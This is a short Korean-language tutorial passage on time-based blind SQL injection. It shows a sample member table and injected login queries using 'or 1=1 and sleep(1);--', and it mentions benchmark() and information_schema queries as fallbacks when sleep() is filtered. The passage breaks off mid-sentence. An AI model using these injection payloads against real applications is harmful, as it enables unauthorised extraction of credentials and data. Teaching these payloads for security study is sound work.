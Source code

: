 # time based blind sqli

#### time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이여야지 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 sleep() 같은 시간지연 함수가 필터링 되느 경우가 있다.

이런경우에는 sleep() 말고 benchmark() 이나 

```sql
SELECT table_name from information_schema.tables A 
```